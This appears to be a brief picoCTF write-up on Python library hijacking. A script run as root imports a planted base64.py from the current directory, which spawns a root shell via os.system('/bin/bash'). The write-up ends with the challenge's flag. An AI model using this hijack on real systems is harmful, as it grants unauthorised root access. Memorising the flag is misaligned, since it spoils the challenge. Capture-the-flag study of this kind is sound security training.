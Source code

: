Can run a python file as root.

Checking the sys path in python shows that the current directory is first, which is bad.

So just build a new library and then run that as root. Something like:

base64.py
```
import os
os.system("/bin/bash")
```

Run the file and get the `/root/.flag.txt`
```
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
```